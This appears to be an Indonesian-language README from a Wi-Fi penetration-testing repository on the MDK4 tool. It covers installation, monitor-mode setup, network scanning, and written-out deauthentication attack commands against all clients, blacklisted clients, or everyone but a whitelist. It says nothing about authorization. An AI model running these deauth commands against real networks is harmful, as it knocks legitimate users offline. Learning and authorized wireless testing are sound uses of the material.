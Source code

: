 # MDK4

![MDK4](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk4/img/mdk3_4.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install mdk4 aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install pkg-config libnl-3-dev libnl-genl-3-dev libpcap-dev git
   git clone https://github.com/aircrack-ng/mdk4
   cd mdk4
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK4:**

   1. Deauth semua client yang terhubung:

      ```
      sudo mdk4 [interface] d -E [essid] -B [bssid] -c [channel]
      ```

   2. Blacklist mode:

      ```
      sudo mdk4 [interface] d -b [file_blacklist] -E [essid] -B [bssid] -c [channel] 
      ```

      Blacklist mode itu hanya melakukan deauth terhadap client yang ada di file `[file_blacklist]`. Client lainnya akan diabaikan.
   2. Whitelist mode:

      ```
      sudo mdk4 [interface] d -w [file_whitelist] -E [essid] -B [bssid] -c [channel]
      ```

      Whitelist mode itu kebalikan dari blacklist mode. Semua client akan di-deauth, kecuali yang ada di file `[file_whitelist].` (dilindungi).

   > **Catatan:**  
   > Kalu ingin deauth client tertentu gunakan opsi `-S [mac_client]`.

## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)
